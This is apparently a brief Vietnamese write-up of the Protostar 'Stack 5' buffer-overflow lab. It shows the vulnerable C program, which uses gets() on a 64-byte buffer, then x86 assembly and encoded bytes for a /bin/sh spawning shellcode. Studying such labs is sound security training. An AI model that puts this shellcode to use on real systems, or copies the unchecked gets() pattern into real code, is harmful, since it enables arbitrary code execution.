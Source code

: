 # Stack 5
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

# Ý tưởng khai thác
- Với bài này chúng ta sẽ sử dụng shell code để khai thác.
```
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
add eax, 0x0b
push ebx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
int 0x80
```
- Ta thu được đoạn shellcode sau:
```
"\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x83\xC0\x0B\x53\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"
```



